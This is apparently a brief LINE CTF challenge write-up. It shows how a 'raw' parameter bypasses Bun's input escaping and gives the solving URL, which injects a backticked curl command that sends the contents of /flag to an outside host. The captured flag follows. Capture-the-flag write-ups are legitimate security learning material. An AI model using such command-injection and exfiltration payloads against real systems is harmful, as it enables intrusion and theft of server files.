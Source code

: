 # Description

- Use a `raw` to prevent bun from escaping the input.
- `http://34.146.180.210:3000/chall?url[raw]=`curl%20https://cau.0wn.kr?flag=$(cat%20/flag)`
- **Flag: `LINECTF{f405e3a998df00e4a9e9cc153d353770}`**
`
